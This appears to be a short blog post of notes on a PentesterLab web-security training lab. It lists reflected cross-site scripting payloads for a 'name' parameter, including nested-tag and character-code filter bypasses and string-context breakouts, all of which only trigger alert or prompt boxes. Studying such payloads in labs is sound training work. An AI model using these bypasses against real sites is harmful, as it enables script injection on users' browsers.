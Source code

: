 ```yaml
---
layout: post
title: Pentesterlab.com Web 1
---
```

#XSS
?name=<script>alert('here')</script>
?name=<script<script>>alert('here')<</script>/script>
?name=<script<script>>alert('here')<</script>/script>
?name=test<a href="" onmouseover="alert('hi')">test</a>
?name=test<a href="" onmouseover="prompt('hi')">test</a> OR ?name=test<a href="" onmouseover="eval(String.fromCharCode('097', '108', '101', '114', '116', '040', '039', '104', '105', '039', '041'));">test</a>
?name=";alert("hi");var test = "
?name=';alert('hi');var test = '
"><script>alert('hi')</script>
